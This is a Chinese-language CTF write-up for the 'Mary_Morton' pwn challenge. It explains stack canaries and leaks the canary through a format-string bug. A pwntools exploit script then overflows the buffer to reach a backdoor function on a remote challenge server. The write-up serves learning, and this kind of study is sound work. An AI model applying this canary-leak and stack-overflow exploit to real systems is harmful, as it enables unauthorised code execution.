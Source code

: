 ```yaml
---
title: 攻防世界 Mary_Morton 关于canary
description: 攻防世界 Mary_Morton 关于canary-writeup
date: 2021-08-05 15:07:56
categories:
 - PWN
tags:
---
```


# 攻防世界 Mary_Morton 关于canary

由于格式化字符串我总是忘记，而且也没做过关于canary相关的题目，特此做此笔记

首先检查文件：

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628171936266-b915a12e-927b-449c-98f3-fc3ea804e631.png)

开了canary保护，拖进ida看看源码

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628171978999-7b075078-988a-4d16-8358-1704fae30651.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628171999111-3ec8ce6c-285d-4155-bf43-8a6f91077114.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628172011374-6555fe3f-a22b-411b-acba-4944675a8593.png)

其实就是两个漏洞，一个格式化字符串，一个栈溢出，这里可以考虑通过格式化字符串去泄露canary的值，然后再用栈溢出覆盖回去，本题提供了一个后门函数

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628172100519-aa7828a2-2da1-42c3-8280-37a646d2cd5e.png)

这里复习一下Canary保护，就是在栈里再添加一个变量，赋予随机值，这里看汇编fs:28h，这里好像是fs段寄存器0x28里存放着一个随机的保护值，如果这个变量在执行最后的leave ret的操作之前被修改了，则会调用__stack_chk_fail，直接报错

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628172156469-2d61005b-e384-4698-8153-423966fd967c.png)

那么第一步我们先通过格式化字符串看buf的偏移，这里偏移是6，那么偏移canary的变量v2就可以算了，首先buf是rbp-0x90，v2是rbp-0x8，那么buf和v2的之差就是0x88，又因为这个是64程序，一个单位占8字节，那么0x88除以8等于17，那么格式化字符串距离v2的偏移就是17+6=23个单位

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628173534920-ceb610ef-8785-49e1-9d57-84e5970e5c85.png)

那么就有

```python
from pwn import *

context.log_level = 'debug'

# p = process('./bin')
p = remote('111.200.241.244',55824)

backdoor = 0x00000000004008DA

payload = '%23$p'
p.sendlineafter('3. Exit the battle ','2')
p.sendline(payload)
p.recvuntil('0x')
canary = int(p.recv(16),16)
print(canary)

p.sendlineafter('3. Exit the battle ','1')
payload = 'A' * 0x88 + p64(canary) + p64(0xdeadbeef) + p64(backdoor)
p.sendline(payload)
p.interactive()
```